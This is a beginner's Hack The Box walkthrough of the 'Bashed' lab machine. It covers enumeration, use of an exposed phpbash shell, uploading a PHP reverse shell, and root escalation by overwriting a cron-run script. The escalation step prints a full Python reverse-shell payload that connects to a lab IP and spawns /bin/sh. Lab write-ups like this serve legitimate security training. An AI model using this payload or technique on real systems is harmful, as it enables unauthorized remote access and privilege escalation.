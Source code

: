 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329) (1).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343) (1) (1).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1).png>)

When I ran linpeas (not shown in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1).png>)
